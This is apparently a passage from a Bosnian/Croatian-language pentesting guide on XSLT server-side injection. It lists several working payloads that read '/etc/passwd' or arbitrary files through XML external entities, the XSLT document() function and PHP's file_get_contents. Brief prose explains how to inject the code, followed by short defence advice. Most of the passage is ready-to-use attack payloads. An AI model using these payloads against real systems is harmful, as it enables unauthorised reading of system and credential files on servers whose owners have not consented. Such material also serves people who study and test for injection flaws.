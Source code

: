 ```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

### **Preko HTTP-a**

XSLT Server-Side Injection (SSI) je tehnika koja se koristi za izvršavanje proizvoljnog koda na serveru putem XML ekstenzibilnog jezičkog transformacijskog obrasca (XSLT). Ova tehnika se može iskoristiti kada aplikacija prihvaća korisnički unos u XML formatu i koristi ga za generisanje XSLT transformacijskog obrasca.

Da biste izvršili XSLT SSI napad, prvo morate identifikovati mjesto gdje se korisnički unos ubacuje u XSLT transformacijski obrazac. Zatim, umjesto očekivanog XML sadržaja, ubacite XSLT kod koji će biti izvršen na serveru.

Jedan od načina za izvršavanje XSLT SSI napada je slanje HTTP zahtjeva sa specijalno oblikovanim XML tijelom koje sadrži XSLT kod. Kada server obradi zahtjev, XSLT transformacijski obrazac će biti generisan sa vašim ubačenim kodom i izvršen na serveru.

Ova tehnika može biti vrlo opasna, jer omogućava napadaču da izvršava proizvoljan kod na serveru, što može dovesti do kompromitovanja sistema, krađe podataka ili daljnjih napada na druge korisnike.

Da biste se zaštitili od XSLT SSI napada, preporučuje se sanitizacija korisničkog unosa i validacija XML sadržaja prije generisanja XSLT transformacijskog obrasca. Takođe, treba koristiti najnovije verzije softvera i pratiti sigurnosne zakrpe kako bi se smanjio rizik od ovog napada.

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

```xml
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```

### **Interno (PHP-funkcija)**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>
```
